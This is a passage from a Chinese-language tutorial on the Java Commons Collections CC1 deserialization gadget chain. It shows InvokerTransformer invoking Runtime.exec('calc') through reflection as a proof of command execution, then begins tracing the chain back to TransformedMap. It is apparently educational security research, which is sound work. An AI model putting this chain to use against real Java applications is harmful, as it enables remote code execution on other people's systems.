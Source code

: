 ```java
    }
}
```

从构造器中可以得知其三个参数都是可以控制的，而方法transform是不是有点眼熟？没错，这就是在**前言**中讲到的反射。

我们尝试利用InvokerTransformer类执行之前的命令：

```java
        Runtime r = Runtime.getRuntime();
//        Class c = r.getClass();
//        Method m = c.getMethod("exec",String.class);
//        m.invoke(r,"calc");上边这三行注释的代码由下边这两行代替
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(r);
```

执行上述代码，发现成功弹出计算器。

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708589373352.png" alt="1708589373352" style="zoom: 33%;" />

这样，终点就找到了，我们便需要进行溯源，寻找上一站。

### 2.溯源

#### 2.1 TransformedMap类

我们向上找能够利用transform方法的类：

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708589730280.png" alt="1708589730280" style="zoom:50%;" />
